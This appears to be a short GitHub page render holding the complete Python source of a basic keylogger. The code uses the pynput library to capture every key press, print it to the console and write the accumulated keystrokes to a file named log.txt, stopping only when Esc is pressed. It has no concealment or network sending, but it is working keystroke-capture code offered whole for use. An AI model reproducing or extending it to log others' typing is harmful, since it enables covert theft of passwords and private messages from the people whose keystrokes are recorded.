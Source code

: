 import pynput

from pynput import keyboard

keys = []

def on_press(key):
    keys.append(key)
    write_file(keys)
    
    try:
        print('Alphanumeric key {0} pressed'.format(key.char))
    except AttributeError:
        print('Special key {0} pressed'.format(key))

def write_file(keys):
    with open('log.txt', 'w') as f:
        for key in keys:
            # Removing ''
            k = str(key).replace("'", "")
            f.write(k)
            # Explicitly adding a space after every keystroke for readability
            f.write(' ')

def on_release(key):
    print('{0} released'.format(key))
    if key == keyboard.Key.esc:
        # Stop the listener
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
